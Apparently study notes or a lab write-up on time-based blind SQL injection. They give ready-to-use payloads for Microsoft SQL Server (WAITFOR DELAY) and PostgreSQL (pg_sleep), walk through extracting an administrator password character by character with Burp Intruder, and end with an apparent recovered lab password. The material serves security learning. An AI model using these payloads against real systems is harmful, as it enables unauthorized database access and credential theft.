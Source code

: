   ## Exploiting blind SQL injection by triggering time delays
  
Suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.  
  
In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because “_SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response_". This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.  
  
**Note**: _The techniques for triggering a time delay are highly specific to the type of database being used._  
  
On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:  
<font color=ligreen>'; IF (1=2) WAITFOR DELAY '0:0:10'--  
'; IF (1=1) WAITFOR DELAY '0:0:10'--  </font>

The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true.  

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:  
<font color=ligreen>'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--  
  

### Note :
There are various ways of triggering time delays within SQL queries, and different techniques apply on different types of database. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).  
  
  
**Blind time delay attack on PostgreSQL database:**  

<font color=ligreen>'||+(select+pg_sleep(10))-- </font>//we get to know the vulnerability as well as the type of database  
//just try the query again without the comment -- if the query doesnt work  
  
  
**Blind SQL injection with time delays and information retrieval:  
**
	
`'+||(select+case+when(1=1)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users)--` //confirms that the users table exists
	
	``'+||(select+case+when(1=1)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users+where+username='administrator')-- ``//confirms that the administrator username exists on users table  

``'+||(select+case+when(1=1)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users+where+username='administrator'+and+LENGTH(password)=20)-- ``//confirms that the length of the password is 20 for the administrator username or we can user burp intruder sniper style  
  
``'+||(select+case+when(1=1)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users+where+username='administrator'+and+substring(password,1,1)>'a')-- ``//confirms that the first letter of password is greater than character ‘a’ and we can use burp intruder with cluster bomb style to brute force the 1 and ‘a’  
  
  
  
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20  
\`z  w e j 6 q b i t m p g 8 l 4 b b 2 y 4`